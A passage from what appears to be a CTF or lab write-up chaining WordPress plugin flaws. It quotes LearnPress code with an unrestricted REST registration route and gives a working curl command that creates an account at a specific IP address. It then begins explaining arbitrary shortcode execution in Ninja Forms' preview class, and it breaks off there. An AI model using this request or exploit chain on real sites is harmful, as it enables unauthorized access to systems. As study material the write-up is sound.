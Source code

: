 ```php
public static function learnpress_create_new_customer( $email = '', $username = '', $password = '', $confirm_password = '', $args = array(), $update_meta = array() ) {
    ...SNIP...
    $new_customer_data = apply_filters(
        'learnpress_new_customer_data',
        array_merge(
            $args,
            array(
                'user_login' => $username,  // Sets the username
                'user_pass'  => $password,  // Sets the password
                'user_email' => $email,     // Sets the email
            )
        )
    );

    ...SNIP...

    // Inserts the new user into the WordPress database
    $customer_id = wp_insert_user( $new_customer_data );
    ...SNIP...
}

```

*   **Key Part:** This function uses `wp_insert_user` to create a new user in the WordPress database. Since there are no restrictions on the REST API route, anyone can create an account with arbitrary credentials.

To exploit the vulnerability, we will send a POST request to the exposed REST API endpoint (`/wp-json/learnpress/v1/token/register`) to create a new user account.

Here’s the `curl` command to register a new account:

```shell
curl "http://100.25.255.51:9098/wp-json/learnpress/v1/token/register" -XPOST --data "username=dimas&password=dimas1234&confirm_password=dimas1234&email=dimas@g.com"

```

This `curl` command successfully creates an account, even if the default WordPress registration is disabled.

### Step 2: Get Arbitrary Shortcode Execution from Ninja Forms

After gaining subscriber access via the LearnPress vulnerability, the next step is to exploit the arbitrary shortcode execution in Ninja Forms, specifically through the `NF_Display_Preview` class.Vulnerable code breakdown:

**1. The** **`NF_Display_Preview`** **Constructor:**
This constructor is responsible for setting up the preview mode for forms in Ninja Forms. The vulnerability lies in how the form ID (`_form_id`) is handled when passed via a GET request parameter.

```php
public function __construct() {
    if ( ! isset( $_GET['nf_preview_form'] ) ) return;

    // Sanitizes the `nf_preview_form` GET parameter and assigns it to `_form_id`
    $this->_form_id = WPN_Helper::sanitize_text_field($_GET['nf_preview_form']);
    ...SNIP...

    // Adds a filter to process the content when loading a page
    add_filter('the_content', array( $this, 'the_content' ), 9001 );
    ...SNIP...
}

```
